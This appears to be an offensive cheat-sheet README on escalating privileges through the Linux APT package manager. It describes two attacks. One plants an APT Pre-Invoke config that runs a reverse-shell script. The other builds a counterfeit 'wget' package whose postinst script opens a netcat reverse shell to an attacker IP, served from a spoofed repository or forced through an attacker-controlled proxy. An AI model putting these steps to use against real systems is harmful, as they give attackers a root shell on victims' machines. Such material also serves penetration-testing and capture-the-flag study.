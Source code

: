 # APT manager and malicious repository

## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) Create a malicious config file (pwnapt) that calls your reverse shell script

    APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} 

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000" (The proxy is the one we open if we detect this env variable to force the package manager to use our repository) Run the proxy first, then run a simple python3 server and then check if your server receives any requests.

### Steps:

#### 1) 

    mkdir build

#### 2) 

    mkdir -p wget/DEBIAN

#### 3) 

    nano/vim wget/DEBIAN/control (Create the control file with the metadata)

#### Control file contents

    Package: wget

    Architecture: all

    Maintainer: @WHATEVER

    Priority: optional

    Version: 5.0

    Description: GGEZ!

#### 4) 

    mkdir -p wget/usr/bin

#### 5) 

    nano/vim wget/usr/bin/wget (Make a dummy binary)

#### Dummy binary contents 

    #!/bin/bash

    echo "Whatever"

#### 6) 

    chmod 700 wget/usr/bin/mypackage

#### 7) 

    nano/vim wget/DEBIAN/postinst (Create the malicious script)

#### Malicious script (postinst) contents

    #!/bin/bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) 

    chmod 755 wget/DEBIAN/postinst

#### 9) 

    dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

    Package: wget

    Version: 5.0

    Maintainer: WHATEVER

    Architecture: all

    Description: Pwnie package

    Multi-Arch: foreign

    Filename: pwn/wget.deb

    Size: 800

    MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

    SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

    SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get update and sudo apt-get upgrade on target machine to download our malicious packages file.

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
